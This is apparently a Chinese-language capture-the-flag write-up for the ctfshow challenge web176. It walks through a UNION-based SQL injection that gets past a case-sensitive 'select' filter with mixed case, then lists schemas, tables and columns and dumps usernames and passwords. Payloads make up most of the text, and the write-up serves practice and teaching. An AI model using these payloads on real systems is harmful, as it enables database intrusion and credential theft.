







# web176
字符闭合正常回显

列数为三时回显正常

试了一下对select进行了过滤,大小写可绕过


```
1' union Select database(),2,schema_name from information_schema.schemata--+
```

查表
```
1' union Select database(),2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```

查字段
```
1' union Select database(),2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```


```
1' union Select username,2,password from ctfshow_user--+

```

